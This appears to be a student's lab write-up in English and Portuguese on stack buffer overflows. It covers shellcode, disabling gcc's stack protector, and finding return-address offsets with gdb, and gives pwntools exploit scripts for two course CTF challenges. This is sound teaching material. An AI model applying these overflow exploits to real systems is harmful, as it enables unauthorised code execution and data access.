 # Trabalho realizado na Semana #6

## Task 1 : Getting Familiar with Shellcode

Both the 32-bit and 64-bit programs gave access to a new non-root shell. This was proof that the inserted shellcode was working as intended. The 32-bit also worked because the -m32 flag was used on the compilation.

---
## Task 2 : Understanding the Vulnerable Program

In order for the exploits to work properly, the vulnerable program should be compiled with some flags:

- **-fno-stack-protector**: This flag disables the stack-smashing protector that is enabled by default in gcc (this isn't the default behaviour of gcc but some Linux distributions have patched gcc to enable it by default).
- **-z execstack**: This flag passes the keyword `execstack` directly to the linked. The keyword itself allows for execution of instructions on the stack.

The rest of the instructions just make the program a root-owned SET-UID program. This was already done and explained in the previous Lab.

---
## Task 3 : Launching Attack on 32-bit Program (Level 1)

### Step 1 - Investigation

By investigating the code presented in the *stack.c* file, it's clear to see that the *bof* function has a vulnerability because of the use of the *strcpy* function, which doesn't check for size when copying a given buffer.

In order to discover the distance between the buffer's starting position and the place where the return-address is stored, we used a debugging tool (gdb). With this, we created a breakpoint inside the *bof()* function and ran the program. Afterwards, we used the command `p $ebp` to get the value of *ebp* (which stores the stack pointer when we entered the function) and `p $buffer` to get the buffer's starting address.

We can get the desired distance by subtracting these 2 values. We can then use this value for an offset, when calculating the address where the return address of *bof()* is stored.

### Step 2 - Launching Attacks

For the attack itself, we used the same shellcode as in Task 1. Regarding the values used for the attack, we used:

- **start**: 0, since it represents the start of the Python's array. This will make sure the shellcode is saved in the start of the buffer and not be corrupted by the bytes we'll write in the next steps.
- **ret**: The start address of the buffer, previously checked via the gdb debugger. This will be the address which the *bof()* function will enter after returning. In our case, 0xffffca3c.

- **offset**: The difference between the address after the $ebp and the start of the buffer. This can be calculated by using the values in step 1 and adding 4, since the ebp variable is 4 bytes long.

![Getting the address values from the debugger](buffer0.png)

![Final script for the exploirt](buffer1.png)

After running the exploit script (shown above) to create a *badfile*, we gained access to a shell after executing the *stack.c* program, where the *bof* function is called.

![Successful attack](buffer2.png)

It is worth noting that the attack only works by running the program with the debugger, since the address values will differ when using the tool.

## CTF - Desafio 1

O primeiro desafio desta semana trata-se de um simples buffer overflow, com o objetivo de escrever por cima de uma variável que contém o nome do ficheiro a ser lido pelo programa. Assim sendo, enviou-se a string "1234567890123456789\0flag.txt" para o servidor, codificado em bytes.

Em baixo, segue-se o código do exploit:
```python
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"1234567890123456789\0flag.txt")
r.interactive()
```

## CTF - Desafio 2

O segundo desafio é semelhante ao primeiro, com a diferença de que não podemos simplesmente dar overflow ao buffer. É necessário escrever valores específicos de forma a que a variável *val*tenha o mesmo valor que está a ser comparado na condição *if*, que se encontra num endereço de memória entre o buffer e a variável com o nome do ficheiro a ser lido.
Assim sendo, enviamos a string "12345678901234567890" para preencher o buffer, os bytes 0xfefc2122 a serem guardados na variável *val* e a string "flag.txt" para ler a flag.

Em baixo, segue-se o código do exploit:
```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

ola = bytearray(b"12345678901234567890")
ola.append(0x22)
ola.append(0x21)
ola.append(0xfc)
ola.append(0xfe) # little order
ola.extend(b"flag.txt")

r.recvuntil(b":")
r.sendline(ola)
r.interactive()
```
